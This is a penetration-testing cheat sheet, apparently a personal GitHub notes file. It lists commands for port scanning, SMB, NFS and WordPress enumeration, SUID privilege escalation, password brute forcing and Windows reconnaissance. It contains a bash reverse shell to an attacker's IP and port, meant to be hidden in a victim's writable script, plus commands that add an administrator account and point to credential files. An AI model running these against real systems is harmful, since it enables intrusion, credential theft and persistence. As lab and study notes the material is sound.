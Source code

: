 # Pentesting

## Common Scans

### Initial, quick port scan

`nmap -vv -sV -sC -oN initial <ip>`

### Slower, complete port scan

`nmap -vv -sV -sC -p- -A -oN full <ip>`

### SMB

#### Finds SMB Vulnerabilities

`nmap -sC -sV -p<port> <ip> --script=smb-vuln*`

#### Enumerates SMB

`smbclient -L \\\\<ip>\\ -N`

### Directories

#### Gobuster directories scan (using wordlist)
`gobuster dir -e -u <ip> -w <path_to_wordlist>`

## SUID Bit Escalation

`find / -perm -u=s -type f 2>/dev/null`

`getcap -r / 2>/dev/null`

Once you have found different programs and SUID bits to be exploited, you can find default steps to spawn shells and other things at this website: https://gtfobins.github.io/

## Shell Upgrading

Once you have a reverse shell on a machine with python (or python3) available, you can try running these commands to upgrade the shell:

`python -c 'import pty; pty.spawn("/bin/bash")'`

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Lateral Movement

### Hijacking a writable script
if the victim runs this, a shell with their privileges is generated. (assuming the attacker is listening at `IP:PORT`)
```bash
bash -i &>/dev/tcp/<IP>/<PORT> 0>&1
```

## Enumerate Writable Folders
`find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u`

## Hydra Password Brute Force

`hydra -l username -p passwordlist.txt <target>`

## Wordpress Scans

### Enumerates Users

`wpscan --url <ip>/<directory> -e u`

### Brute Forces Passwords

`wpscan --url <ip>/<directory> --passwords <password_list> --username <user>`

## SMB Commands

### List Network Shares

`smbclient -L <ip>`

### Connect To Share

`smbclient \\\\<ip>\\<share_name>`


## NFS Exploit

### 1. Check to see if there are any folders running on the machine that indicate they can be mounted to.
`showmount -e <ip>`

```
Export list for 10.10.60.230:
/srv/nfs *
```
The star indicates that anyone can mount to this folder. If that was not true, there would be a list of IPs that were allowed to mount to it.

### 2. Make a temp directory to mount to the filesystem.
`mkdir /tmp/infosec`

### 3. Mount to that directory and see what is inside, and if you can upload files.
`sudo mount -t nfs <ip>:/<directory> /tmp/infosec`

## Windows

### Get Current User Privileges
`whoami /priv`

### List Users
`net users`

### List User Information
`net user <username>`

### List Listening Ports
`netstat -ano`

### List Other Logged-In Users
`qwinsta`

`query session`

### List User Groups
`net localgroup`

### List Users In Group
`net localgroup <groupname>`

### Get OS Name and Version
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

### List System Updates
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

### Add user to machine and give administrator permissions
`net user <username> <password> /add`

`net localgroup administrators <username> /add`

## Notes
### Directories To Enumerate (Windows)
* `C:\Program Files\FileZilla Server\FileZilla Server.xml`
    - May contain credentials 
* `C:\xampp\FileZilla Server\FileZilla Server.xml`
    - May contain credentials 
